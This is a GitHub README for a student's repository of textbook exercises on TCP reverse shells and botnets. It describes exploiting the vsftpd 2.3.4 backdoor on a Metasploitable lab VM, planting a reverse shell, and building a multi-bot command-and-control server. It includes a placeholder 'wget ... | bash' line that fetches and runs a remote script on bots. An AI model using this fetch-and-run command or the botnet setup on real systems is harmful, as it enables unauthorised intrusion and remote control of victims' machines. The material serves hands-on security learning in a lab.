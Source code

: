 # botNet
All of the code from Chapter 4 of Ethical Hacking: A Hands on Introduction to Breaking In. Chapter 4 is titled: Crafting TCP Shells and Botnets  


In this chapter, we are taught about sockets and process communication. It explains how TCP handshakes work the type/way packets are exchanged between the client and the server. We then are taught about what a TCP reverse shell is. It is explained that since a lot of firewalls allow outgoing connections only, the solution as an attacker is to install a reverse shell on the victim machine that connects to the command and control server outside the network. Once this connection is made, you can send commands to the victim which are then executed.  It then gives us a diagram that shows how this works/is going to work as we work in the chapter. You can view it as 'diagram.png'.  

We then were taught how to use nmap to scan for open ports. We learned about some different scan types and flags for nmap, as well as the pros and cons of them. On the metasploitable server, we located an open tcp port 21 which has a vulnerable version of vsftpd (2.3.4) running. This is what we are going to exploit to gain access to the metasploitable machine so that we can load our reverse shell onto it. It is a backdoor that starts a shell running on port 6200 which we connect to and download reverseShell.py onto the victim machine.  

We also have to create a TCP server that does 2 main things and functions as our command and control server: shellServer.py
1. accept connection from client
2. send and receive commands
The problem with this TCP server is that it can only handle one connection. If our goal is to create a network of victim clients (botnet) then we need to have a TCP server that can handle multiple connections.

We create another TCP server that can handle multiple connections and the idea is that instead of sending and receiving individual commands to each bot, we want the bot to all receive the same command. After our command and control server receives a response, we want it to print the bot's IP address and the result of executing the command. What I have so far is in shellServerMulti.py.  The exercise is considered completed when this server reads from a file and sends the commands in that file to the clients. I know there are probably a lot of ways this can be done, but what i've done is have the filepath passed in as an argument when you start the server for example:  
```
kali@kali:~$ **python3 shellServerMulti.py <filepath>**
```
For some reason this is not working. I also am thinking that we can just execute this command once we have the client connect since we are using a reverse shell anyway:  
```
kali@kali~$ **wget -O - <IP ADDRESS>:PORT/filepath/file.sh | bash**
```
This could encapsulate the commands outside of the server code (this idea came to me this morning as I was putting together this github) and I wouldn't have to worry about parsing the file in python at all. The code would be super clean.  

Thank you for anyone taking the time to look over this stuff and offer advice, pointers, or contributions. Feel free to use and abuse all of this code.

